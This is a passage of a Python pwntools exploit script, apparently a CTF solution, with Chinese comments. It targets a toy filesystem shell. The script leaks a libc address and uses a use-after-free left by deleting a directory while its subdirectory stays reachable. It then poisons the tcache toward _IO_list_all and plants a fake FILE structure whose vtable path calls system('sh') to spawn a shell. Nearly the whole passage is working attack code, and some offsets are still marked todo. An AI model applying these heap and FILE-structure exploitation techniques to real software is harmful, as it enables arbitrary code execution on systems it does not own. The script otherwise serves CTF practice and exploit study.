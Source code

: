 ```py
p.sendline("rm aaa")

for i in range(8):
    p.recvuntil("$ ")
    p.sendline("touch b"+str(i))
    p.recvuntil("$ ")
    p.sendline("cat b"+str(i))

libc_leak = u64(p.recv(6).ljust(8,b'\x00'))
print(hex(libc_leak)) # 0x7f91df45d060 0x7f91df266000
libc_base = libc_leak - 0x45d060+0x266000
print(hex(libc_base))
# **delete 函数 不会 delete subdirectory，同时不会把 parent 指针置空**
# **所以可以通过 cd 到一个被 delete 的 directory 的 subdirectory 然后 cd .. 来造成 UAF**
# 这些现象都是可以观察到 但是串不起来，，

# tcache poisoning
# 我们先在一个 directory 下面创建一个 folder 和两个 file,然后把 directory 删掉
# 接着我们通过上述方法进入 subdirectory 然后 cd ..，然后往其中先 delete 的 file 写 fd 到 IO_list_all 然后打 iofile 就行
p.recvuntil("$ ")
p.sendline("mkdir freedfolder")
p.recvuntil("$ ")
p.sendline("cd freedfolder")
p.recvuntil("$ ")
p.sendline("touch freedfile1") # 后 delete
p.recvuntil("$ ")
p.sendline("touch freedfile2") # 先 delete
p.recvuntil("$ ")
p.sendline("mkdir subdir")
p.recvuntil("$ ")
p.sendline("cd /freedfolder/subdir")
p.recvuntil("$ ")
p.sendline("cd ..")
p.recvuntil("$ ")
p.sendline("cd ..")
p.recvuntil("$ ")
p.sendline("rm freedfolder")
p.recvuntil("$ ")
p.sendline("cd /freedfolder/subdir")
p.recvuntil("$ ")
p.sendline("cd ..")
p.recvuntil("$ ")

p.sendline("mod freedfile1")
p.recvuntil("Write Here > ")
io_list_all = libc_base + libc.sym['_IO_list_all'] - 0x10
io_file_addr = heap_base + 0x1750 # todo
io_file = b"  sh;"
io_file = io_file.ljust(0x20, b"\x00")
io_file += p64(1)+p64(2)
io_file = io_file.ljust(0x48, b"\x00")+p64(0)+p64(io_file_addr+0x100)
io_file = io_file.ljust(0x68, b"\x00")+p64(libc_base+libc.symbols["system"])
io_file = io_file.ljust(0x88, b"\x00")+p64(io_file_addr + 0x48) # todo modify this
io_file = io_file.ljust(0xa0, b"\x00")+p64(io_file_addr)
io_file = io_file.ljust(0xd8, b"\x00")+p64(libc_base + 0x1f3240)+p64(io_file_addr)
payload = p64(io_list_all^(io_file_addr>>12))+p64(0)+io_file+b"\n"
p.send(payload)

p.recvuntil("$ ")
p.sendline("touch v1")
p.recvuntil("$ ")
p.sendline("touch iolistall")
p.recvuntil("$ ")
```
